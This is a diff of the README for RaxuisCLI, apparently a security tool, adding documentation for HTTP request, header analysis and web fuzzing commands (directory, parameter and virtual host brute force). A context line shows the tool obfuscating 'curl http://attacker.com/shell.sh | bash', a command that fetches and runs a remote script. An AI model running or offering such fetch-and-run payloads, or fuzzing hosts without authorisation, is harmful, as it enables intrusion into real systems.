

Before and after one commit to Raxuis/RaxuisCLI, a Markdown page: README.md, the part around one of its changes. Shown at 87% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -670,3 +670,63 @@ raxuiscli obfuscate bash "curl http://attacker.com/shell.sh | bash"
 
 ---
 
+### Web Security
+
+#### `http` - HTTP Requests
+Custom HTTP requests with security header analysis.
+
+```bash
+# GET request
+raxuiscli http get https://example.com
+
+# POST with JSON data
+raxuiscli http post https://api.com -d '{"user":"test"}'
+
+# PUT request
+raxuiscli http put https://api.com/item/1 -d '{"name":"new"}'
+
+# DELETE request
+raxuiscli http delete https://api.com/item/1
+
+# HEAD request (headers only)
+raxuiscli http head https://example.com
+
+# OPTIONS request
+raxuiscli http options https://api.com
+
+# Security headers analysis
+raxuiscli http headers https://example.com
+
+# Trace redirects
+raxuiscli http trace https://bit.ly/xxx
+
+# Generate curl command
+raxuiscli http curl https://api.com -X POST -d '{"x":1}'
+```
+
+**Use cases:**
+- API testing and debugging
+- Security header verification
+- Redirect chain analysis
+- Request crafting
+
+---
+
+#### `fuzz` - Web Fuzzing
+Directory, parameter, and virtual host discovery.
+
+```bash
+# Directory brute force
+raxuiscli fuzz dir https://example.com -w dirs.txt
+raxuiscli fuzz dir https://example.com --common          # Built-in wordlist
+raxuiscli fuzz dir https://example.com -e php,html,txt   # With extensions
+
+# Parameter fuzzing
+raxuiscli fuzz param "https://site.com?q=test" -w params.txt
+raxuiscli fuzz param "https://site.com" --common
+
+# Virtual host discovery
+raxuiscli fuzz vhost https://10.10.10.10 -w vhosts.txt
+raxuiscli fuzz vhost https://target.com -d example.com    # With domain suffix
+```
+
````
Also changed, not shown: other parts of README.md (+110 -2 lines).
